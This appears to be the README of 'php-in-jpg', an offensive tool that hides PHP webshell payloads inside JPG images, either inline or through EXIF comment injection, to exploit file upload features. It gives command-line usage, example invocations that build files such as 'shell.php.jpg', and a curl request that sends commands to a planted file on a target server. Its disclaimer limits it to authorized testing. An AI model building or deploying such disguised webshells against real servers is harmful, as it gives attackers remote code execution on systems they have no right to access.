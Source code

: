 # php-in-jpg

**php-in-jpg** is a simple but flexible tool that generates `.jpg` image files embedding PHP payloads.  
It supports two techniques:

- **Inline payload**: appends PHP code directly to the image
- **EXIF metadata injection**: embeds the payload in the image's comment field using `exiftool`.

By default, the payload uses the **GET-based execution mode** (`?cmd=your_command`) unless a fixed command is specified.

This tool is designed to support **PHP RCE polyglot techniques**, often used in upload-based exploitation scenarios or webshell demonstrations.

![PoC demo](screenshots/poc.png)

---

## 🛠️ Features

- Embed PHP payload directly or via EXIF metadata
- Choose between a **fixed command** or `?cmd=` **GET-based execution**
- Support for custom or default HTML/PHP templates with `{{COMMAND}}` and `{{OUTPUT}}`
- Optional preview-only mode: show payload without writing files
- Clean HTML output styling (terminal-like, via default template)

---

## 🚀 Usage

```bash
python php-in-jpg.py -m <method> [options]
```

### Available options:

| Option                | Description                                                                 |
|-----------------------|-----------------------------------------------------------------------------|
| `-m, --method`        | Insertion method: `inline` or `metadata` (**required**)                     |
| `-c, --cmd-mode`      | Command mode: `fixed` (static command) or `get` (dynamic via `?cmd=`). Default is `get`. |
| `-x, --fixed-cmd`     | Fixed shell command to embed (required if `--cmd-mode fixed`)               |
| `-o, --output`        | Output file name (e.g. `payload.php.jpg`)                                   |
| `-t, --template`      | Optional template with `{{COMMAND}}` and `{{OUTPUT}}` placeholders          |
| `--show-payload`      | Print PHP payload to screen only, no file creation                          |

---

## 📦 Examples

```bash
# Embed a fixed command using inline method
python php-in-jpg.py -m inline -c fixed -x "whoami" -o shell.php.jpg

# Embed dynamic GET-based payload via EXIF (default cmd-mode)
python php-in-jpg.py -m metadata -o payload.php.jpg

# Access via browser or curl: payload.php.jpg?cmd=pwd
curl "http://target/upload/payload.php.jpg?cmd=pwd"

# Just preview the generated PHP code
python php-in-jpg.py -m inline -c fixed -x "ls -l" --show-payload
```

---

### 💻 Example CLI Output

```
$ python php-in-jpg.py -m inline -c fixed -x "ls -l"
[+] File generated: jpg_poc_fixed_inline_20250408_134033.php.jpg
[!] Embedded command: ls -l

$ python php-in-jpg.py -m inline -c fixed -x "ls -l" -t wrong_path
[-] Error: template file not found at: wrong_path

$ python php-in-jpg.py -m inline -c fixed -x "pwd" -t template/custom.tpl -o output.php
[+] File generated: output.php
[!] Embedded command: pwd

$ python php-in-jpg.py -m metadata -c fixed -x "whoami" -o output.php
    1 image files updated
[+] File generated: output.php
[!] Embedded command: whoami
```

---

## 📁 Template system

Templates must contain the following placeholders:

- `{{COMMAND}}`: replaced with the displayed command
- `{{OUTPUT}}`: replaced with the actual `system(...)` or similar execution block

A default template is located in: `template/default.tpl`

---

## 🔧 Requirements

- Python 3
- Python dependencies: install via `pip install -r requirements.txt`
- `exiftool` (external tool, used for metadata injection)

---

## ⚠️ Disclaimer

This tool is for **educational and authorized testing purposes only**.  
Do not use it in unauthorized environments.
